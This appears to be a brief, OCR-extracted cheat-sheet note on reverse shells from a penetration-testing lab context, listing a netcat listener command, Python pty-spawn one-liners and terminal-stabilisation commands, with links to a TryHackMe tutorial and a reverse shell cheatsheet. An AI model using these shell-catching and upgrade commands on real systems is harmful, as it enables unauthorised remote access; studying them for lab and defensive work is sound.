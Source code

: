 php reverse.shell

# rlwrap nc -lvnp <port>

! no tty present and no askpass program specified.
````
python3 -c 'import pty; pty.spawn("/bin/sh")'

python -c 'import pty;pty.spawn("/bin/bash")', 

export TERM=xterm

stty raw -echo; fg
`````
(https://www.kumaratuljaiswal.in/2021/01/tryhackme-intro-to-shell-all-about-shell.html)
(https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
